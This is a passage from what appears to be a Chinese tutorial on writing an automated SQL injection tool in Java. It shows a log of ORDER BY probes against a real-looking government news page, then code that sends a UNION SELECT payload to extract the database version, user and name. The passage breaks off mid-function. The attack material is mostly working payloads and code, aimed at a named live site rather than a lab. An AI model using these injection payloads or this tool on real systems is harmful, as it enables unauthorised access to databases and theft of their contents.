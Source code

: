 利用检测是否存在 SQL 注入的原理同样能过检测出查询的字段数。我们通过二分去 order 一个 by 一个数然后去请求分析页面一致性。然后不停的去修改数值最终结果相等即可获得字段数。上面的分析的代码挺简单的，有兴趣的同学自己去看。日志如下：

```
************开始精确匹配*****************
url:http://www.tchjbh.gov.cn/news_display.php
param:id=148+orDer+By+15+%23
url:http://www.tchjbh.gov.cn/news_display.php
param:id=148+orDer+By+16+%23
************开始精确匹配*****************
url:http://www.tchjbh.gov.cn/news_display.php
param:id=148+orDer+By+16+%23
url:http://www.tchjbh.gov.cn/news_display.php
param:id=148+orDer+By+17+%23
************开始精确匹配*****************
url:http://www.tchjbh.gov.cn/news_display.php
param:id=148+orDer+By+17+%23
url:http://www.tchjbh.gov.cn/news_display.php
param:id=148+orDer+By+18+%23
************开始精确匹配*****************
url:http://www.tchjbh.gov.cn/news_display.php
param:id=148+orDer+By+18+%23
url:http://www.tchjbh.gov.cn/news_display.php
param:id=148+orDer+By+19+%23
************开始精确匹配*****************
url:http://www.tchjbh.gov.cn/news_display.php
param:id=148+orDer+By+19+%23
url:http://www.tchjbh.gov.cn/news_display.php
param:id=148+orDer+By+20+%23
************开始精确匹配*****************
url:http://www.tchjbh.gov.cn/news_display.php
param:id=148+orDer+By+20+%23
url:http://www.tchjbh.gov.cn/news_display.php
param:id=148+orDer+By+21+%23
************开始精确匹配*****************
url:http://www.tchjbh.gov.cn/news_display.php
param:id=148+orDer+By+21+%23
url:http://www.tchjbh.gov.cn/news_display.php
param:id=148+orDer+By+22+%23
order by 字段数为:21
skey:id=148 
```

在知道了字段数后我们就可以通过构建关键字的方式去获取 SQL 注入查询的结果，我们的目的无外乎就是不停的递交 SQL 注入语句，把我们想要得到的数据库的信息展示在页面，然后我们通过自定义的关键字去取回信息到本地：

```
/**
     * 测试，获取数据库表信息
     */
    public static void getDatabaseInfo(){
        String skey = sqlKey.get(0).toString();
        System.out.println("skey:"+skey);
        StringBuilder union = new StringBuilder();
        for (int i = 0; i < sbCount; i++) {
            union.append("concat('[mjj]','[version]',version(),'[/version]','[user]',user(),'[/user]','[database]',database(),'[/database]','[/mjj]'),");
        }
        Map<String,Object> sb = HttpHelper.sendGet(uri, parameter.replace(skey, skey+("-1+UnIon+SeleCt+"+(union.delete(union.length()-1, union.length()))+"%23")));
        String rs = ((String)sb.get("content"));
        String user = rs.substring(rs.lastIndexOf("[user]")+6,rs.lastIndexOf("[/user]"));
        String version = rs.substring(rs.lastIndexOf("[version]")+9,rs.lastIndexOf("[/version]"));
        String database = rs.substring(rs.lastIndexOf("[database]")+10,rs.lastIndexOf("[/database]"));
```